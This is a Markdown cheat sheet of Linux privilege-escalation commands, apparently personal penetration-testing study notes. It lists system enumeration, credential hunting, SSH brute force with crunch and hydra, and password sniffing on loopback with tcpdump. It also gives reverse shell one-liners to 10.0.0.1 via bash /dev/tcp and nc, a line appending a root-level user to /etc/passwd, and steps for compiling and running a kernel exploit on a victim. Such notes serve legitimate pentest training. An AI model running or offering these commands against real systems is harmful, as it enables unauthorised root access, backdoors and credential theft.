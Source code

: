# Linux Privilege Escalation

## Manual enumeration

Commands:
- `id`
- `cat /etc/passwd`
- `hostname`
- `cat /etc/issue`
- `cat /etc/os-realease`
- `uname -a`
- `ps aux`
- `ip a`
- `routel`
- `ss -anp`
- `cat /etc/iptables/rules.v4`
- `ls -lah /etc/cron*`
- `crontab -l`
- `sudo crontab -l`
- `dpkg -l`
- `find / -writable -type d 2> /dev/null`
- `cat /etc/fstab`
- `mount`
- `lsblk`
- `lsmod`
- `/sbin/modinfo some_kernel_module`
- `find / -perm -u=s -type f 2> /dev/null`

## Automated enumeration

Initial baseline:
```
/usr/bin/unix-privesc-check
```
Check for example writable config files.

Other tools:
- LinEnum: https://github.com/rebootuser/LinEnum
- LinPeas: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

## Credentials

### Hidden in text files

Check:
- `env`
- `cat .bashrc`
- `su - root`
- `sudo -l`

### Brute force ssh with password hints

With a hint of password:
```
crunch 19 19 -t Hint_Of_Password%%% > wordlist
hydra -l user -P wordlist $VictimIP -t 4 ssh -V
```

### Hidden passwords in Services

```
sudo tcpdump -i lo -A | grep "pass"
watch -n1 "ps aux | grep pass | grep -v grep | fold -s
```

## Cron jobs

Source: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Passwd file

```
openssl passwd passwordtohash
echo "newadmin:somehaststring:0:0:root:/root:/bin/bash" >> /etc/passwd
```

## SUID

Source: https://gtfobins.github.io/
```
find / -perm /6000 -exec ls -ld {} \; # setuid + setgid
grep Uid /proc/procnum/status
ls -asl /usr/bin/somebin
```

## Sudo

```
searchsploit -u
searchsploit "Linux kernel 4.4.0 privilege escalation"
cp /usr/share/exploitdb/exploits/linux/local/num.c .
gcc num.c
scp num.c victim@IP:
./a.out
```




